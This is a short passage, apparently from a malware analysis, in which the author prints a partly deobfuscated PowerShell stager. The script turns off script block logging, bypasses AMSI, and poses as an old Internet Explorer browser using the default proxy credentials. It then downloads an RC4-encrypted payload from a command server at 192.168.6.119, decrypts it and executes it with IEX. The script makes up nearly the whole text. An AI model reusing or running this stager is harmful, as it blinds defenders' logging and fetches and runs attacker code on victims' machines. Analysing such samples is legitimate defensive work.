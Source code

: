 This is the same script, but I removed some obfuscation to get a better view:
 
```
If($PSVErSioNTaBLe.PSVErSIoN.MAjor -gE 3)
{
	$GPF=[rEf].AsSeMblY.GetTYpE('System.Management.Automation.Utils')."GeTFieLd"('cachedGroupPolicySettings','NonPublic,Static');
	If($GPF)
	{
		$GPC=$GPF.GeTValUE($NULL);
		IF($GPC['ScriptBlockLogging'])
		{
			$GPC['ScriptBlockLogging']['EnableScriptBlockLogging']=0;
			$GPC['ScriptBlockLogging']['EnableScriptBlockInvocationLogging']=0
		}
		$Val=[ColLECTionS.GENeric.DIcTiOnarY[STriNG,SystEm.Object]]::NEw();
		$vAL.ADD('EnableScriptBlockLogging',0);
		$VAL.AdD('EnableScriptBlockInvocationLogging',0);
		$GPC['HKEY_LOCAL_MACHINE\Software\Policies\Microsoft\Windows\PowerShell\ScriptBlockLogging']=$vAL
	}
	ElSe
	{
		[ScRIPtBloCk]."GETFIElD"('signatures','NonPublic,Static').SetVALUe($nuLl,(New-OBJect COllEcTIONs.GenErIC.HASHSet[sTRInG]))
	}
	[REF].AsSEMBLY.GEtTypE('System.Management.Automation.AmsiUtils')|?{$_}|%{$_.GeTFIeld('amsiInitFailed','NonPublic,Static').SETVALUe($null,$true)};
};
[SystEM.NeT.SErvicEPOINTManAGeR]::EXPeCt100CoNTinUe=0;
$wC=New-ObJecT SYsTem.NET.WeBCLIENt;
$u='Mozilla/4.0 (compatible; MSIE 6.0;Windows NT 5.1)';
$WC.HEaDERS.ADd('User-Agent',$u);
$wC.PRoxY=[SYsteM.NET.WEbRequest]::DeFAulTWEbPROxY;
$wC.Proxy.CREdentIaLs = [SyStEM.NEt.CReDenTiaLCACHE]::DefAultNEtWorkCReDEntiALs;
$Script:Proxy = $wc.Proxy;
$K=[SYsTEm.TEXT.ENcODinG]::ASCII.GeTBYtEs('fdcece0a22c10f83dccc8f17c95a33d4');
$R={$D,$K=$ARGs;
$S=0..255;
0..255|%{$J=($J+$S[$_]+$K[$_%$K.COuNT])%256;
$S[$_],$S[$J]=$S[$J],$S[$_]};
$D|%{$I=($I+1)%256;
$H=($H+$S[$I])%256;
$S[$I],$S[$H]=$S[$H],$S[$I];
$_-bXOr$S[($S[$I]+$S[$H])%256]}};
$ser='http://192.168.6.119:80';
$t='/CWoNaJLBo/VTNeWw11212/';
$wc.HeADeRs.AdD("Accept","image/gif, image/x-xbitmap, image/jpeg, image/pjpeg, */*");
$Wc.HeaDeRs.Add("Accept-Language","en-en");
$WC.HEADErS.AdD("Cookie","session=pRWdj48/Lf2wTAhO2Y7BXpRHz6o=");
$DAtA=$WC.DOWnlOADDAtA($SEr+$T);
$iv=$datA[0..3];
$Data=$DATa[4..$DATA.LENgTh];
-jOiN[ChaR[]](& $R $Data ($IV+$K))|IEX
```
